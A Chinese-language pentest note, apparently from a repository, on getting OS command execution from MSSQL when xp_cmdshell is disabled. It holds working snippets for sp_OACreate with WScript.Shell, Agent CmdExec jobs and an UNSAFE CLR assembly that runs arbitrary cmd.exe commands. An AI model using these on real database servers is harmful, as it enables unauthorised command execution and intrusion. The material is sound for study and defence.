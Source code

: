 ### MMSQL 的 xp_cmdshell() 函数被禁用怎么绕过

**1. 利用其他扩展存储过程**

MSSQL 中还有一些其他的扩展存储过程，它们可能没有 `xp_cmdshell` 那么直接，但仍然可以用于执行命令或读写文件

- **`sp_OACreate` (OLE Automation Procedures)**: 这个过程通常用于创建 COM 对象，但如果你能找到合适的 COM 对象，比如 `WScript.Shell`，就可以利用它来执行命令

  **示例代码:**

  ```sql
  DECLARE @shell INT;
  EXEC sp_OACreate 'WScript.Shell', @shell OUT;
  EXEC sp_OAMethod @shell, 'run', NULL, 'cmd.exe /c whoami > C:\temp\output.txt';
  -- 之后你可以读取 output.txt 来获取结果
  ```

  **注意:** 这种方法依赖于是否启用了 OLE Automation Procedures，并且需要寻找可以被利用的 COM 对象

**2. SQL Server Agent Jobs**

如果 SQL Server Agent 服务正在运行，并且你拥有创建作业的权限，你可以创建一个新的 Agent Job，并在其中执行 PowerShell 或命令行脚本

- **创建作业 (Job)**: 创建一个 SQL Agent Job，步骤类型 (Step Type) 选择 **`Operating system (CmdExec)`** 或 **`PowerShell`**
- **编写脚本**: 在步骤中直接写入你要执行的命令
- **启动作业**: 启动该作业，命令就会在 SQL Server Agent 的权限下执行

这种方法的好处是，即使 `xp_cmdshell` 被禁用，Agent Job 依然可以运行。但前提是，你有权限创建并执行作业

**3. CLR Assembly**

SQL Server 提供了 CLR (Common Language Runtime) 集成功能，允许你在数据库中运行 .NET 代码。如果你可以创建一个恶意的 CLR Assembly，并在其中编写执行命令的代码，就可以绕过 `xp_cmdshell`

- **启用 CLR**:

  ```sql
  EXEC sp_configure 'clr enabled', 1;
  RECONFIGURE;
  ```

- **创建并部署 Assembly**: 编写一个 C# 代码，使用 `System.Diagnostics.Process` 类来执行命令，然后将其编译成 DLL，并上传到数据库

- **创建存储过程**: 创建一个 SQL 存储过程来调用这个 Assembly 中的方法

  **C# 代码示例:**

  ```c#
  using System;
  using System.Diagnostics;
  using System.Data.SqlClient;
  using Microsoft.SqlServer.Server;
  
  public class StoredProcedures
  {
      [SqlProcedure]
      public static void CmdExec(string command)
      {
          Process.Start("cmd.exe", "/c " + command);
      }
  }
  ```

  **SQL Server 端:**

  ```sql
  -- 创建 Assembly
  CREATE ASSEMBLY CommandExec FROM 'C:\path\to\YourAssembly.dll' WITH PERMISSION_SET = UNSAFE;
  
  -- 创建存储过程
  CREATE PROCEDURE sp_CmdExec @command NVARCHAR(4000) AS
  EXTERNAL NAME [YourAssembly].[StoredProcedures].[CmdExec];
  
  -- 执行
  EXEC sp_CmdExec 'whoami';
  ```

  **注意:** CLR Assembly 功能通常是默认禁用的，并且创建 UNSAFE 权限集的 Assembly 需要 `sysadmin` 权限